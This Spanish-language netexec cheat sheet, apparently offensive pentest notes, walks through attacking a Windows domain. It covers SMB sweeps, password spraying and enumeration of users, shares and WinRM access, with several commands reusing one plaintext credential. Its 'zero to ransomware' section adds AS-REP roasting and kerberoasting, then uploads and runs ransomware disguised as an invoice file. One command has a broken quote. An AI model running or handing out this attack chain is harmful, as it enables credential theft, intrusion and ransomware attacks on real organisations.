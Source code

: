 ### Barridos de red / password spray

Barrido de red smb:

```bash
netexec smb 172.16.199.0/24 -u '' -p '' | awk '{print $2}' > smb_discovery.txt
cat smb_discovery.txt| sort -u | grep -Ei "[*\\.]" > temp.txt && mv temp.txt smb_discovery.txt
```

Password spray para enumerar credenciales válidas:

```bash
netexec smb 172.16.120.6 -u users.txt -p pass.txt --continue-on-success | grep -vi 'failure'
```

Enumerar descripciones de usuarios:

```bash
netexec smb smb_discovery.txt -u 'maildmz' -p 'DPuBT9tGCBrTbR' --users | grep -v "+"
netexec ldap smb_discovery.txt -u 'maildmz' -p 'DPuBT9tGCBrTbR' --users | grep -v "+"
```

Enumerar shares de todas las máquinas:

```bash
netexec smb smb_discovery.txt -u 'maildmz' -p 'DPuBT9tGCBrTbR' --shares | grep -v "+"
```

Enumerar permisos de protocolos (winrm en este caso) para un usuario en todas
las máquinas:

```bash
netexec winrm smb_discovery.txt -u 'maildmz' -p 'DPuBT9tGCBrTbR' | grep -vi "-"
```

Si queremos añadir todas las máquinas en el /etc/hosts rápidamente:

```bash
netexec smb 10.5.10.0/24 --generate-hosts-file hosts_file
cat hosts_file -> copiar y pegar en el /etc/hosts
```

### Policies y enumeración general del entorno

Para enumerar la password policy:

```bash
netexec smb <IP> -u 'guest' -p '' --pass-pol
```

También podemos enumerar ordenadores o sesiones en el dominio:

```bash
netexec smb <DC-IP> -u 'x' -p 'y' --computers
netexec smb <DC-IP> -u 'x' -p 'y' --sessions
```

Otra opción que nos puede servir son los módulos. Para listar los módulos de un
protocolo podemos ejecutar:

```bash
netexec smb -L
netexec ldap -L
```

Por ejemplo, podemos enumerar máquinas unidas al dominio con:

```bash
netexec ldap <IP> -u 'x' -p 'y' -M maq
```

### Ejemplo ataque completo con netexec - de cero a ransomware

Ataque de asreproast:

```bash
netexec ldap <IP> -u 'x' -p '' --asreproast hashes.txt
```

Ataque de kerberoasting:

```bash
netexec ldap <IP> -u 'x -p 'y' --kerberoast hashes_kerberoast.txt
```

Subir un archivo (ransomware):

```bash
netexec smb <IP> -u 'x' -p 'y' --share C$ --put-file factura.pdf.exe USERS\\Public\\Downloads\\factura_urgente.pdf.exe -x "C:\users\Public\Downloads\factura.pdf.exe"
```

